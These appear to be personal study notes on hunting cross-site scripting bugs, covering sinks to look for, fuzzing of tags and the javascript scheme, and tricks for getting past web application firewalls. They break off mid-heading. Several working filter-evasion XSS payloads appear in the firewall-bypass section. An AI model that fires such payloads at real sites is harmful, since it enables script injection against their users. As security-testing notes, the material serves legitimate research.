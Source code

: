 - 80% of time spent in **debugger** 
- what the browser shows in inspect is after all the decoding and permutations 
- how to find the event handlers (best way):
```js
Object.keys(window).filter(k => !k.indexOf('on'))
```
- do *more* DOM + postMessage 
	- first look for these:
		- *window.open*
		- *window.location*
		- *window.location.href*
# **FUZZ the whitespaces allowed** 
- [ ] (re read js for hackers)
- FUZZ for *HTML tags*
	- <img{fuzz}>src{fuzz}onerror=test
- FUZZ for *JS scheme*
	- javascript{FUZZ} also java{FUZZ}script 
		- (%0a, %0d,%09) (you must know)
	- {FUZZ}javascript ...
# **bypass**
- [ ] known waf ? -> search the net 
- [ ] CDN or application based ? -> build your own payload
- [ ] JS protection ? -> debug
- Do not use noisy Strings  
	- `<x> -> <x onxxx -> <x onxxx= `
### in HTML tags
- [ ] fuzz to find a valid tag
- [ ] *<ta[FUZZ]g> (it will gets valid server side)* #gold
- [ ] waf confusion
	- [ ] *use HTML encoding* #gold
		- [ ] `<img src onerror=alert(1)` -> 403
		- [ ] `<img src>` -> 200
		- [ ] `<img src> onerror=alert(1)` -> 200
		- [ ] `<img src &#x3E onerror=alert(1)>` -> 200
```js
<!--` <img/src` onerror=alert(origin)> --!>
<img src="/" =_='' title="onerror='prompt(origin)'" >
<!<script>confirm(origin)</script>
```
### in JS execution
- [ ] /gitcomm